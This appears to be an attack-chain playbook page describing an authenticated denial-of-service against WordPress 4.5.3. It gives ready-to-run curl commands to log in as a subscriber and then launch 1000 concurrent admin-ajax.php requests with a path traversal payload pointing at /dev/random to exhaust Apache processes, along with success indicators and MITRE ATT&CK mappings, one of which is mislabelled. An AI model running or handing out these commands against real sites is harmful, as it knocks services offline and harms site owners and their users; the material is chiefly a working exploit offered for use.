

# WordPress Path Traversal DoS via Core Ajax Handlers

Multi-stage attack chain demonstrating an authenticated denial of service in WordPress 4.5.3 by exploiting path traversal in Core Ajax handlers to read blocking files like /dev/random, exhausting Apache processes.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~2 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]
- [[tools/bash]]

### Target Environment

- WordPress 4.5.3 on Apache/PHP
- Subscriber-level credentials (e.g., username: subscriber, password: password)
- Network access to the WordPress site

### Initial Access Requirements

- Valid subscriber credentials
- Direct HTTP access to the target WordPress instance
- No prior admin access needed

## Detailed Attack Procedures

### Step 1: Authenticate as Subscriber
procedure: [[procedures/Authenticate-as-WordPress-Subscriber]]

**Objective**: Obtain authenticated session cookies as a subscriber user to enable access to admin-ajax.php.

**Instructions**: Use [[commands/wordpress-login-curl]] to send login credentials and store session cookies:

```bash
curl --cookie-jar "$cookiejar" --data "log=subscriber&pwd=password&wp-submit=Log+In&redirect_to=%2f&testcookie=1" "$target/wp-login.php" >/dev/null 2>&1
```

**Expected Output**: Successful login (response suppressed); cookies stored in $cookiejar file.

**Success Indicators**:
- Cookies file created with session data
- No authentication errors in response (if not suppressed)

### Step 2: Exploit Path Traversal for DoS
procedure: [[procedures/Exploit-WordPress-Ajax-Path-Traversal-for-DoS]]

**Objective**: Send concurrent requests to admin-ajax.php with path traversal payload to read /dev/random, blocking and exhausting Apache processes.

**Instructions**: After authentication, execute [[commands/wordpress-dos-loop-curl]] to launch 1000 concurrent requests:

```bash
for i in `seq 1 1000`; do curl --cookie "$cookiejar" --data "plugin=../../../../../../../../../../dev/random&action=update-plugin" "$target/wp-admin/admin-ajax.php" >/dev/null 2>&1 &; done
```

Finally, clean up with [[commands/cleanup-cookie-jar]]:

```bash
rm "$cookiejar"
```

**Expected Output**: Server becomes unresponsive due to resource exhaustion; multiple curl processes complete (output suppressed).

**Success Indicators**:
- Target site inaccessible or slow to respond
- High CPU/memory usage on Apache server
- Error logs showing blocked reads on /dev/random

## Attack Chain Summary

### Key Achievements

1. Authenticated access to vulnerable Ajax endpoint
2. Path traversal exploitation causing resource blocking
3. Denial of service via Apache process exhaustion

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[OS Exhaustion Flood]] OS Exhaustion Floods

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Privilege Escalation]] Impact

---
*Last updated: 2023-10-01T00:00:00Z*
